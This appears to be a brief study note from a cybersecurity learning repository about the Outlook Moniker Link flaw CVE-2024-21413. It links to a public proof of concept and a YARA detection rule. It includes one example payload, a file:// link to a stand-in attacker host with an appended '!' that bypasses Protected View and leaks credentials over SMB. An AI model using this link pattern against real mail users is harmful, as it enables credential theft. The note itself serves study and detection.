 ### Moniker Link
- a type of hyperlink
- https://learn.microsoft.com/en-us/windows/win32/com/url-monikers
- RISK:
  - Adding ! and extra text to a file:// link `(e.g., file://ATTACKER_IP/test!exploit)` bypasses Outlook’s Protected View, allowing access to the link.
  - This exploit uses the SMB protocol, which can expose local credentials to the attacker.
    
___


### Example Exploit made by CMNatic
- https://github.com/CMNatic/CVE-2024-21413

___


### Detection by Florian Roth
- Yara rule: https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar
- https://x.com/cyb3rops/status/1758792873254744344

[Back](../CyberSecurity101.md)
